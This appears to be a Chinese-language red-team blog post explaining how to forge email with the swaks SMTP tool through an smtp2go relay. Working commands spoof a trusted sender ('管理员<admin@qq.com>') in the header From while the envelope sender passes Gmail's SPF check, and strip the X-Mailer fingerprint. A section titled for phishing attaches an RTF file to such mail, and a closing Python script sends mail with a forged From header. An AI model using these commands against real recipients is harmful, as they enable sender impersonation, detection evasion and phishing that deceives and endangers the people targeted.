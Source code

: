 ```yaml
---
categories: 高效
date: "2019-05-09T00:00:00Z"
description: 绕过一些邮件服务器的简单检测
title: Swaks伪造邮件
url: /archivers/2019-05-09/1
---
```


## 0x00 swaks

swaks - Swiss Army Knife SMTP, the all-purpose smtp transaction tester.

swaks堪称SMTP协议的瑞士军刀，使用它我们可以灵活的操作SMTP协议报文，这篇文章主要是记录一下我是如何伪造一封邮件绕过gmail的检测。

通常最简单的发送命令：

```bash
swaks --to user@example.com --server test-server.example.net
```

但是邮件头中会带上`X-Mailer`：

![2019-05-09-14-24-53](../../../static/images/74cbdcfa-4f5f-11ec-9bc1-00d861bf4abb.png)


同时，SPF检测会FAIL。

## 0x01 smtp2go

这个是从evi1cg师傅那里看到的，smtp2go主要是相当于邮件托管，可以分发子账户进行发送。

地址：https://support.smtp2go.com/hc/en-gb

（邮箱注册）普通账户可以免费发1000封邮件。


分配好账户后，可以通过swaks进行登录发送邮件：

![2019-05-09-14-28-50](../../../static/images/750c7a8a-4f5f-11ec-889d-00d861bf4abb.png)

## 0x02 swaks发送邮件

```bash
swaks --to rvn0xsy@gmail.com --from admin@qq.com --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASS>
```

但是上面这个邮件无法绕过SPF。

## 0x03 SPF验证原理

如果mail.smtp2go.com是我的邮件服务器，那么gmail服务器收到的源IP也肯定是mail.smtp2go.com的IP。

gmail会校验邮件发送者的IP是否存在于smtp.from的域名spf配置列表里。

而上面这条命令：

```bash
swaks --to rvn0xsy@gmail.com --from admin@qq.com --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASS>
```

smtp.from就是admin@qq.com，和mail.smtp2go.com的IP肯定不同，所以SPF校验失败，而校验失败的邮件，会有很高的几率被扔到垃圾邮件中。

默认情况下，如果未设置Mail.From也就是邮件头的From，则会使用smtp.from作为Mail.From。

![2019-05-09-14-38-39](../../../static/images/7546e2d8-4f5f-11ec-8699-00d861bf4abb.png)


## 0x04 绕过SPF

由于邮件显示的是Header中的From不是smtp.from，因此可以将smtp.from设置为正常的邮件服务器地址，伪造一个Mail.From即可。

```bash
swaks --to payloads@aliyun.com --from xx@smtp2go.com --h-From: '管理员<admin@qq.com>' --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASSS>
```

Gmail接收到这封邮件后，会校验`--from xx@smtp2go.com`中的smtp2go.com是否等于mail.smtp2go.com的IP，由于是相等的，所以完成了SPF的校验。

而DKIM是校验邮件完整性的，smtp2go与Gmail直接使用的是TLS，不会发生什么问题。


![2019-05-09-14-42-55](../../../static/images/758edade-4f5f-11ec-947a-00d861bf4abb.png)

## 0x05 Header

swaks支持自定义某些Header，参数如下：

```bash
swaks --header-<Name> <Value>
```

如果我想去除Mailer特征，就可以这么做：

```bash
swaks --header-X-Mailer gmail.com --to payloads@aliyun.com --from xx@smtp2go.com --h-From: '管理员<admin@qq.com>' --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASSS> 
```

## 0x06 附件、钓鱼

```bash
swaks --header-X-Mailer gmail.com --to payloads@aliyun.com --from xx@smtp2go.com --h-From: '管理员<admin@qq.com>' --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASSS> --attach /tmp/sss.rtf
```

定制发送：

```bash
swaks --data /tmp/mail.data --header-X-Mailer gmail.com --to payloads@aliyun.com --from xx@smtp2go.com --h-From: '管理员<admin@qq.com>' --ehlo gmail.com --body hello --server mail.smtp2go.com -p 2525 -au <USER> -ap <PASSS> --attach /tmp/sss.rtf
```

/tmp/mail.data中是原始的邮件报文。

## 0x07 Python也可以做

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

import smtplib
from email.mime.text import MIMEText
from email.header import Header

mail_host="mail.smtp2go.com"
mail_user=""
mail_pass=""


sender = 'test@smtp2go.com'
receivers = ['rvn0xsy@gmail.com']

message = MIMEText('Hello World', 'plain', 'utf-8')
message['From'] = Header("from@qq.com", 'utf-8')
message['To'] =  Header(receivers[0], 'utf-8')

subject = 'SMTP 邮件测试'
message['Subject'] = Header(subject, 'utf-8')


try:
    smtpObj = smtplib.SMTP()
    smtpObj.connect(mail_host, 25)
    smtpObj.login(mail_user,mail_pass)
    smtpObj.sendmail(sender, receivers, message.as_string())
    print "Success"
except smtplib.SMTPException:
    print "Error"
```